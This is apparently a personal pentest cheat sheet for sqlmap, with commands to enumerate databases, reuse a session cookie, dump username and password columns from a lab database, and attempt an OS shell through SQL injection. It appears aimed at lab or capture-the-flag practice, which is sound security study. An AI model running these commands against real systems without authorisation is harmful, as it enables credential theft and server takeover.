 ```yaml
---
desc: Automatic SQL injection and database takeovers
url: https://github.com/sqlmapproject/sqlmap
tags:
- pkg/apt
- tools/pentest
---
```


# SQLMap - Automatic SQL injection and database takeovers

Enumerate databases:

```bash
sqlmap -u 'URL' --dbs
```

Reuse session cookie:

```bash
sqlmap -u 'URL' --dbs --cookie "PHPSESSID=<cookie ID>"
```

Make `sqlmap` prompt less:

```bash
sqlmap -u 'URL' --batch
```

Enumerate tables of a DB:

```bash
sqlmap -u 'URL' --batch -D darkhole_2 --tables
```

List columns:

```bash
sqlmap -u 'URL' --batch -D darkhole_2 -T users --columns
```

Table fields:

```bash
sqlmap -u 'URL' --batch -D darkhole_2 -T users -C username,password --dump
```

Try get an interactive shell:

```bash
sqlmap -u 'URL' --os-shell --batch
```
